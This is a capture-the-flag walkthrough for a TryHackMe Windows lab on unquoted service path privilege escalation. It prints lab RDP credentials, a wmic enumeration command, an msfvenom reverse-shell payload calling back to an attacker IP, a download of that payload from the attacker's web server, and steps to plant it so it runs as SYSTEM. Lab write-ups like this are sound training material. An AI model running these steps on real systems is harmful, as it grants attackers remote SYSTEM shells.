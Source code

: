```yaml
---

title: Walkthrough - Quotient
published: true
---
```


Tags: Security, Windows, Privilege Escalation, Unquoted Path.
Description: Grammar is important. Don't believe me? Just see what happens when you forget punctuation.
Difficulty: Easy
URL: [https://tryhackme.com/room/quotient](https://tryhackme.com/room/quotient)

* * *

## Notes

> Grammar is important. Don't believe me? Just see what happens when you forget punctuation. Access the machine using RDP with the following credentials:
> Creds: sage:gr33ntHEphgK2&V

Unquoted service path! If the path to an executable is not inside quotes, Windows will try to execute every ending before a space.

To list unquoted service paths:

- `wmic service get name,displayname,pathname,startmode |findstr /i "Auto" | findstr /i /v "C:\Windows\\" |findstr /i /v """`

This command shows us this unquoted service path

```
Developmenet Service                                                                Development Service                       C:\Program Files\Development Files\Devservice Files\Service.exe                    Auto
```

So if we create a executable and get it into the program files folder we can get it to send us back a reverse shell as system.

- `msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.2.127.225 LPORT=6666 -f exe-service -o service.exe`

1. setup python webserver and `PS C:\Users\Sage> Invoke-WebRequest -Uri "http://10.2.127.225/Service.exe" -OutFile "Service.exe"` on the target machine.
2. Give everyone permissions `icacls C:\Users\Sage\Service.exe /grant Everyone:F`
3. Copy the service.exe to the Development Files directory and rename Devservice.exe.

![0xskar](/assets/quotient01.png)

We dont have permissions to start and stop the service but a restart of the system will do this, and should send us a shell.

* * * 

## Admin Flag

![0xskar](/assets/quotient02.png)

* * * 

